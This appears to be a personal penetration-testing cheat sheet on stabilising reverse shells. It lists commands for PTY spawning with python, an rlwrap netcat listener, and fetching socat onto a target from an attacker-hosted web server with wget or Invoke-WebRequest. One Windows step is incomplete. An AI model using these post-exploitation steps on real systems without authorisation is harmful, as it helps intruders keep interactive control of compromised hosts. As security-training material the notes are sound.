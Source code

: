 ### shell_stabilisation


#### Technique 1: python


1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2.  `export TERM=xterm`
3.  `stty raw -echo; fg`


![[Pasted image 20220817002908.png]]

#### Technique 2: rlwrap


1. `sudo apt install rlwrap`
2. `rlwrap nc -lvnp <port>`
3. `stty raw -echo; fg`

#### Techinique 3: socat

1. `sudo python3 -m http.server 80`
2. `wget <LOCAL-IP>/socat -O /tmp/socat`
3. `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile `
4. `C:\\Windows\temp\socat.exe`

![[Pasted image 20220817003104.png]]

in your shell type

1. `stty rows <number>`
2. `stty cols <number>`


Other Links:
https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

We can also use script (alternative)

/usr/bin/script -qc /bin/bash /dev/null
script

